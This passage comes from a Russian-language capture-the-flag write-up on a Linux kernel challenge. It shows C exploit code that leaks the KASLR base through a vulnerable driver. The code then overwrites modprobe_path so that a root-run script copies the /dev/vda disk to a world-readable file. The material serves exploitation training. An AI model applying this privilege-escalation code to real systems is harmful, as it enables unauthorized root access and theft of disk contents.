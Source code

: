 ```c
    // read cpu_entry_area
    lseek(fd, (off_t)(cpu_entry_area - content_addr), SEEK_SET);
    uint64_t kaslr_leak = 0;
    read(fd, &kaslr_leak, 8);

    printf("{+} KASLR leak: 0x%08llx\n", kaslr_leak);
    uint64_t kaslr_base = kaslr_leak - 0x1008e00;
    printf("{+} KASLR base: 0x%08llx\n", kaslr_base);
    
    return kaslr_base;
};
```

Запустим обновлённый код:

![](/assets/IrisCTF-Checksumz/Pasted%20image%2020250110015312.png)

С базой загрузки ядра мы можем переписать значение `modeprobe_path` и получить повышение привилегий. Про эту технику тоже можно прочитать в интернете. Например, вот [здесь](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/). Суть техники в двух словах — есть некоторая переменная где записан путь до исполняемого файла который вызовется с правами рута при попытке запуска приложения с определённым magic-значением в заголовке. 
Допишем наш эксплоит. Записывать память будем всё также через установку `buffer->pos` и запись в файл через `write`.
```c
...
	uint64_t KASLR = try_break_kaslr(fd);
    if (KASLR == -1 || ((KASLR & 0xfffff) != 0)) {
        puts("kaslr invalid!");
        return 0;
    }
    uint64_t modeprobe = KASLR + 0x1b3f100;

    int trig_fd = open("/tmp/kek", O_RDWR | O_CREAT);
    write(trig_fd, "#!/bin/sh\ncat /dev/vda>/f\nchmod 777 f\n", 39);
    close(trig_fd);
    system("chmod 777 /tmp/kek");

    printf("{+} modeprobe_path: 0x%08llx\n", modeprobe);
    lseek(fd, (off_t)(modeprobe - relative_addr), SEEK_SET);
    write(fd, "/tmp/kek", 12);
    
    trig_fd = open("pek", O_RDWR | O_CREAT);
    write(trig_fd, "\xde\xad\xbe\xef", 4);
    close(trig_fd);

    system("chmod 777 ./pek; ./pek;");
```
